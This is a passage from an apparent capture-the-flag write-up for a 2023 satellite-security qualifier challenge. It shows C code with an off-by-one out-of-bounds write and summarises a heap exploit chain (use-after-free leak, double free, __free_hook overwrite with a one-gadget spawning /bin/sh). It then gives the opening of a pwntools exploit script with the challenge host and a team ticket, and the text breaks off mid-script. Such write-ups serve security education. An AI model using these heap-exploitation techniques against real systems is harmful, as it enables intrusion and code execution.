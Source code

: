 ```c
    // if user sent `hex: 1`
    if (ishex) {
        char cur_byte[3] = {0};

        // if s.lenth() is odd `CalcPayloadLen()` returns s.length()
        // instead of s.length() / 2
        for (size_t i = 0, j = 0; i < CalcPayloadLen(ishex, s); i+=2, j++) {
            cur_byte[0] = s[i];
            cur_byte[1] = s[i+1];
            msg_s[j] = static_cast<uint8_t>(std::strtol(cur_byte, nullptr, 16));
        }
    } else {
        for(size_t i = 0; i < CalcPayloadLen(ishex, s); i++){
            msg_s[i] = static_cast<uint8_t>(s[i]);
        }
    }

    // ...
}
```

We can only control the lower nibble of byte written oob, the higher nibble is always set to `0` because `strtoul()` only sees a 1-character string.

## Exploitation

In short, we used the UAF to get a libc leak from a freed unsorted bin, and the double free in combination with the off-by-one oob write to get arbitrary write and overwrite `__free_hook` with a [one gadget](https://github.com/david942j/one_gadget) that calls `execve("/bin/sh", 0, 0)`. The complete exploit script is provided below and explains the relevant exploitation steps in more detail through comments in the `main()` function.

```py
#!/usr/bin/env python3

import re
from pwn import *

exe = ELF('./magic_patched', checksec=False)
libc = ELF('./libc_debug-2.31.so', checksec=False)
context.binary = exe

TICKET = b'ticket{quebec703978whiskey4:GEmu1G0NX1z6syFsVFKuX0vLGEw0ULBraF16mEtKzS4qEdVXUd8NgwhCMM9Y4bpAjg}'

def conn():
    if args.GDB:
        r = gdb.debug([exe.path])
    elif args.REMOTE:
        r = remote('magic.quals2023-kah5Aiv9.satellitesabove.me', 5300)
        r.sendlineafter(b'Ticket please:\n', TICKET)
    else:
        r = process([exe.path])
    return r

def post_msg(msg_id, pipe_id, ishex, msg, pwn=False):
    r.sendline(b'1')
    r.recvuntil(b'msg_id: ')
    r.sendline(b'%d' % msg_id)
    r.recvuntil(b'pipe_id: ')
    r.sendline(b'%d' % pipe_id)
    r.recvuntil(b'hex: ')
    r.sendline(ishex)
    r.recvuntil(b'Message to post on bus: ')
```